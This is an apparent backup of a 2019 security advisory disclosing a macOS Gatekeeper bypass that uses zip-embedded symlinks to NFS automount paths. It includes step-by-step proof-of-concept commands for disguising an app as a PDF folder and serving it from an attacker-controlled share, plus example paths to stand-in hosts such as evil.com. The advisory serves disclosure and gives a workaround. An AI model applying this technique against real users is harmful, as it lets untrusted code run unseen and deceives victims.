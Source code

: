 # macos_gatekeeper_bypass (*article backup)
 bypass Gatekeeper in order to execute untrusted code without any warning or user's explicit permission.
sources: https://www.fcvl.net/vulnerabilities/macosx-gatekeeper-bypass
https://www.sentinelone.com/blog/how-malware-bypass-macos-gatekeeper/

MacOS X GateKeeper Bypass
24 May 2019

OVERVIEW
On MacOS X version <= 10.14.5 (at time of writing) it is possible to easily bypass Gatekeeper in order to execute untrusted code without any warning or user's explicit permission.

Gatekeeper is a mechanism developed by Apple and included in MacOS X since 2012 that enforces code signing and verifies downloaded applications before allowing them to run.
For example, if a user donwloads an application from internet and executes it, Gatekeeper will prevent it from running without user's consens.

DETAILS
As per-design, Gatekeeper considers both external drives and network shares as safe locations and it allows any application they contain to run.
By combining this design with two legitimate features of MacOS X, it will result in the complete deceivement of the intended behaviour.

The first legit feature is automount (aka autofs) that allows a user to automatically mount a network share just by accessing a "special" path, in this case, any path beginning with "/net/".
For example
ls /net/evil-attacker.com/sharedfolder/
will make the os read the content of the 'sharedfolder' on the remote host (evil-attacker.com) using NFS.

The second legit feature is that zip archives can contain symbolic links pointing to an arbitrary location (including automount enpoints) and that the software on MacOS that is responsable to decompress zip files do not perform any check on the symlinks before creatig them.

To better understand how this exploit works, let's consider the following scenario:
An attacker crafts a zip file containing a symbolic link to an automount endpoint she/he controls (ex Documents -> /net/evil.com/Documents) and sends it to the victim.
The victim downloads the malicious archive, extracts it and follows the symlink.

Now the victim is in a location controlled by the attacker but trusted by Gatekeeper, so any attacker-controlled executable can be run without any warning. The way Finder is designed (ex hide .app extensions, hide full path from titlebar) makes this tecnique very effective and hard to spot.

The following video illustrates the concept

https://youtu.be/m74cpadIPZY

PoC
In order to reproduce this issue, follow the steps below:

create a zip file with a symlink to an automount endpoint
mkdir Documents
ln -s /net/linux-vm.local/nfs/Documents Documents/Documents
zip -ry Documents.zip Documents
create an application (.app folder) with the code you want to run
cp -r /Applications/Calculator.app PDF.app
echo -e '#!/bin/bash'"\n"'open /Applications/iTunes.app' > PDF.app/Contents/MacOS/Calculator
chmod +x PDF.app/Contents/MacOS/Calculator
rm PDF.app/Contents/Resources/AppIcon.icns
ln -s /System/Library/CoreServices/CoreTypes.bundle/Contents/Resources/GenericFolderIcon.icns PDF.app/Contents/Resources/AppIcon.icns
create a publicily accessible NFS share and put the .app in it
ssh linux-vm.local
mkdir -p /nfs/Documents
echo '/nfs/Documents *(insecure,rw,no_root_squash,anonuid=1000,anongid=1000,async,nohide)' >> /etc/exports
service nfs-kernel-server restart
scp -r mymac.local:PDF.app /nfs/Documents/
upload the zip somewhere in internet and download it so it gets the quarantine flag used by Gatekeeper
extract the zip (if needed) and navigate it
HISTORY
The vendor has been contacted on February 22th 2019 and it's aware of this issue. This issue was supposed to be addressed, according to the vendor, on May 15th 2019 but Apple started dropping my emails.
Since Apple is aware of my 90 days disclosure deadline, I make this information public.

SOLUTION
No solution is available yet.

A possible workaround is to disable automount:

Edit /etc/auto_master as root
Comment the line beginning with '/net'
Reboot
